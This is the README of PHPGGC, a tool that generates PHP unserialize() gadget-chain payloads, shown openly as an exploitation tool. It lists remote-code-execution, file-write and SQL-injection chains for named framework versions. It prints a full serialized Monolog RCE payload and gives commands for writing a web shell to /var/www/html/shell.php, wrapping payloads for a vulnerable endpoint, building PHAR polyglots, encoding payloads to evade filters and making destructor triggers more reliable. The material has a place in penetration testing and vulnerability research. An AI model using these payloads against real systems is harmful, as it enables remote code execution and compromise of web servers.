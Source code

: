 # PHPGGC: PHP Generic Gadget Chains

*PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically*.
When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. It can be seen as the equivalent of [frohoff's ysoserial](https://github.com/frohoff/ysoserial), but for PHP.
Currently, the tool supports: Doctrine, Guzzle, Laravel, Magento, Monolog, Phalcon, Slim, SwiftMailer, Symfony, Yii and ZendFramework.


## Requirements

PHP >= 5.6 is required to run PHPGGC.


## Usage

Run `./phpggc -l` to obtain a list of gadget chains:

```
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR         I    
Doctrine/FW1          ?                 file_write       __toString     *    
Guzzle/FW1            6.0.0 <= 6.3.2    file_write       __destruct          
Guzzle/RCE1           6.0.0 <= 6.3.2    rce              __destruct          
Laravel/RCE1          5.4.27            rce              __destruct          
Laravel/RCE2          5.5.39            rce              __destruct          
Laravel/RCE3          5.5.39            rce              __destruct     *    
Laravel/RCE4          5.5.39            rce              __destruct          
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct          
Monolog/RCE1          1.18 <= 1.23      rce              __destruct          
Monolog/RCE2          1.5 <= 1.17       rce              __destruct          
Phalcon/RCE1          <= 1.2.2          rce              __wakeup       *    
Slim/RCE1             3.8.1             rce              __toString          
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString          
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString          
SwiftMailer/FW3       5.0.1             file_write       __toString          
Symfony/FW1           2.5.2             file_write       DebugImport    *    
Symfony/FW2           3.4               file_write       __destruct          
Symfony/RCE1          3.3               rce              __destruct     *    
Symfony/RCE2          2.3.42 < 2.6      rce              __destruct     *    
Symfony/RCE3          2.6 <= 2.8.32     rce              __destruct     *    
Yii/RCE1              1.1.19            rce              __wakeup       *    
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct     *  

```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <command>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 assert 'phpinfo()'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```


## Wrapper

The `-w` option allows you to define a PHP file containing a `wrapper($chain)` function.
This will be called after the chain is built, but before the `serialize()`, in order to adjust the payload's shape.
For instance, if the vulnerable code looks like this:

```php
<?php
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a __toString() chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function wrapper($chain)
{
    return array(
        'message' => $chain
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## PHAR(GGC)

At BlackHat US 2018, @s_n_t released PHARGGC, a fork of PHPGGC which instead of building a serialized payload, builds a whole PHAR file. This PHAR file contains serialized data and as such can be used for various exploitation techniques (`file_exists`, `fopen`, etc.). The paper is [here](https://cdn2.hubspot.net/hubfs/3853213/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-....pdf).

PHAR archives come in three different formats: **PHAR, TAR, and ZIP**. The three of them are supported by PHPGGC.
Polyglot files can be generated using `--phar-jpeg` (`-pj`). Other options are available (use `-h`).


## Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
**Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.

The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will base64 the payload, then URLencode it twice.


## Advanced: Enhancements

### Fast destruct

PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first.

```
$ ./phpggc -f -s slim/rce1 system id
a:2:{i:7;O:18:"Slim\Http\Response":2:{s:10:"...
```

### ASCII Strings

Uses the `S` serialization format instead of the standard `s`. This replaces every non-ASCII value to an hexadecimal representation:
`s:5:"A<null_byte>B<cr><lf>";̀` -> `S:5:"A\00B\09\0D";`
This can be useful when for some reason non-ascii characters are not allowed (NULL BYTE for instance). Since payloads generally contain them, this makes sure that the payload consists only of ASCII values.
*Note: this is experimental and it might not work in some cases.*


# Contributing

Pull requests are more than welcome. Please follow these simple guidelines:

- `__destruct()` is always the best vector
- Specify at least the version of the library you've built the payload on
- Refrain from using references unless it is necessary or drastically reduces the size of the payload. If the payload is modified by hand afterwards, this might cause problems.
- Do not include unused parameters in the gadget definition if they keep their default values. It just makes the payload bigger.

Codewise, the directory structure is fairly straightforward: gadgets in _gadgets.php_, description + logic in _chain.php_.
You can define pre- and post- processing methods, if parameters need to be modified.
Hopefully, the already implemented gadgets should be enough for you to build yours.
Otherwise, I'd be glad to answer your questions.
